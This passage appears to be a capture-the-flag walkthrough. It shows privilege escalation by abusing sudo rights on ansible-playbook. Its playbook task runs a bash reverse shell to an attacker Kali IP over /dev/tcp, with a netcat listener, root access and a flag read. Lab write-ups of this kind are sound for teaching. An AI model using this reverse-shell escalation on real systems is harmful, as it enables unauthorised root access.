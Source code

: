 Notice you have `sudo` access to `ansible-playbook`.

2. We can use this to our advantage to create an ansible playbook that gives us a root access shel. First create a file: 

```bash
nano /home/ansible/playbook.yaml
```

and paste the following (Make sure you change `<kali-ip-address>` with your IP address): 

```yaml
- hosts: localhost
  tasks:
    - name: Get Shell
      command: /bin/bash -c 'bash -i >& /dev/tcp/<kali-ip-adress/8000 0>&1'
```

3. Now, from a new Kali VM terminal, start a Netcat listener on port `8000`:

```bash
nc -lvp 8000
```

4. Now, lets trigger the ansible playbook on the `ansible` user terminal session:


```bash
sudo /usr/bin/ansible-playbook /home/ansible/playbook.yaml
```

5. You will notice you obtain a reverse shell connection on the terminal you started the Netcat listener and now have root access to the web server box. You can confirm this by typing the following from the obtained reverse shell: 

```bash
whoami
```

You will notice you are now `root`.

6. You can now get the contents of the last flag by typing the following in the obtained reverse shell: 

```bash
cat /root/flag3.txt
```

You have now obtained obtained the third and last flag. 
